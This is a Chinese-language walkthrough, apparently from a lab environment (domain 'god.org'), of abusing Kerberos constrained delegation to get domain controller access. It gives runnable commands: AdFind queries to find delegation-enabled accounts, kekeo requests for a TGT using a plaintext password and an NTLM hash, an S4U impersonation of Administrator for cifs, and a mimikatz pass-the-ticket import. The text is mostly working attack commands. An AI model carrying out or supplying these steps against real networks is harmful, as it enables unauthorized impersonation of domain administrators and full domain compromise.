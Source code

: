 #### 1）探测

查询机器用户（主机）配置约束委派：

```shell
shell AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![截图](4186fdfcbbc4400b6110dbe235d75242.png)

查询服务账户（主机）配置约束委派

```shell
shell AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![截图](937212342c30ba9d23cd227dd606de42.png)

#### 2）获取用户票据

这里首先需要得到对应的账户与密码：

![截图](1026f75b3a51e604bbeb06acc52c4289.png)

然后，我们上传了kekeo，并利用此获取用户当前票据：

```shell
# 明文密码
shell kekeo "tgt::ask /user:webadmin /domain:god.org /password::admin!@#45 /ticket:administrator.kirbi" "exit"

# 哈希值密码
shell kekeo "tgt::ask /user:webadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"
```

![截图](54fa1d5da026f177bc77419fe0ed9952.png)

#### 3）利用用户票据获取域控票据

这里请求的cifs，注意要与后文连接域控时的网络名相同：

```shell
shell kekeo "tgs::s4u /tgt:TGT_webadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"
```

![截图](d76814fa6c0fe7895f6b34127886de0d.png)

#### 4）导入票据到内存中

```shell
mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi
```

